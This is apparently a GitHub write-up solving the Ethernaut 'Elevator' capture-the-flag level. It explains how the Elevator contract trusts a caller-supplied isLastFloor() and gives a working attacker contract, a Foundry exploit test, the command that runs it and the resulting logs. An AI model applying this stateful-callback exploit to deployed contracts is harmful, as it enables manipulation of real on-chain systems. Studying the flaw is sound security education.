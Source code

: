 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

<br>

# What You're Supposed to Do?

in `11-Elevator` Challenge, You Should Try To find a Way to Go to Top of the Building Successfully Using the Elevator.

`11-Elevator` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2](https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2)

<br>

# How did i Complete This Challenge?

<br>

I made a little change `Elevator` Contract Which Just Changed Interface Name from `Building` to `IBuilding`.

So Now Looks Like This:

```javascript
    contract Elevator {
        bool public top;
        uint256 public floor;

        function goTo(uint256 _floor) public {
            IBuilding building = IBuilding(msg.sender);


            if (!building.isLastFloor(_floor)) {
                floor = _floor;
                top = building.isLastFloor(floor);
            }
        }
    }
```

When We Analyze the `Elevator` Contract, We See that it uses an interface. Right Away, You Should Ask Yourself: What's The Purpose of Using Interface in This Contract or Even in Soliidty?

One of the Main Reasons is to Interact With Smart Contracts Specific Functions But Using Less Gas.

Now When You See This line: `IBuilding building = IBuilding(msg.sender)`, it means the `msg.sender` is a Contract, Which We Use a Interface to Interact with `isLastFloor()` function.

Now This `isLastFloor` Function it Should Work in a Way to Successfully Pass the If Statement. Since `isLastFloor()` Returns a Boolean Value and the If Statement itself Requires the
condition to be `true`, in order to Execute Rest of the Code, this Indicates that returned value from `isLastFloor()` function, should be `false` and then we flip it back to `true` When
we use `!` with `false`. (`if (!false == true) {execute rest of the code}`)

Now What the Contract Should do is return `true` if it's Last Floor of the Building and return `false` if it's not. (kinda)

But One thing You Probably Didn't Notice is, if the `_floor` number we pass in, is actually the Last Floor of the Building, it will return `true` and When We Combine `!` with `true` (`!true`) it will flip back to `false` which the condition of the if statement will be `false`, resulting in Not Executing the Rest of the code inside the if statement.

What Attacker Can do Here is, if `_floor` number is Passed in is the Last Floor, Return `false` first time, so the code inside the if statement get's executed and return `true` second time
if the `_floor` Number Passed in, is The Last Floor of the Building.

So Basically We Want this Line `if (!building.isLastFloor(_floor))}` condition equals to `true` by `isLastFloor()` function returning `false` and `top = building.isLastFloor(floor)` to be
`true`.

So it looks Like this:

```javascript
    if (!building.isLastFloor(_floor)) {    
        floor = _floor;
        top = building.isLastFloor(floor);
    }

    if (!false) {    
        floor = _floor;
        top = true;
    }
```

Attacker Can Use Similar Contract Like This In Order to Go Top Of the Building Successfully:

```javascript
    contract Building is IBuilding {

    Elevator elevator;
    uint256 public lastFloor = 10;
    bool isFirstCall = true;

    constructor(Elevator _elevator) {
        elevator = _elevator;
    }

    function useElevator(uint256 _floor) external {
        elevator.goTo(_floor);
    }

    function isLastFloor(uint256 _floor) external returns (bool isLastFloorBoolean) {

        if (_floor != lastFloor) {
            isLastFloorBoolean = false;
        } else if (_floor == 10) {

            if (isFirstCall) {
                isFirstCall = false;
                return false;

            } else if (!isFirstCall) {
                isFirstCall = true;
                return true;

            }
        }
    }
}
```


Here's the Test i Wrote inside the `Elevator.t.sol` Which You Can Run to Exploit the `Elevator` Contract:

```javascript
        function testElevatorIsWorkingCorrectly() external {
        Building building = new Building(elevator);
        
        console.log("The Last Floor in this Building is 10.");
        console.log("Lets Use Elevator To Go To Floor 3.");

        building.useElevator(3);

        console.log("We Are Currently On Floor: ", elevator.floor());
        assertEq(elevator.floor(), 3);
        console.log("is This the Top of the Building? ", elevator.top());
        assertEq(elevator.top(), false);


        console.log("Hmm... i Changed my Mind, Lets Go To Top of the Building, Floor 10.");

        building.useElevator(10);

        console.log("We Are Currently On Floor: ", elevator.floor());
        assertEq(elevator.floor(), 10);
        console.log("is This the Top of the Building? ", elevator.top());
        assertEq(elevator.top(), true);
    }
```

You Can Run it with Command Below:

```javascript
    forge test --match-test testElevatorIsWorkingCorrectly -vvvv
```

Take a Look at the `Logs`:

```javascript
    Logs:
        The Last Floor in this Building is 10.
        Lets Use Elevator To Go To Floor 3.
        We Are Currently On Floor:  3
        is This the Top of the Building?  false
        Hmm... i Changed my Mind, Lets Go To Top of the Building, Floor 10.
        We Are Currently On Floor:  10
        is This the Top of the Building?  true
```
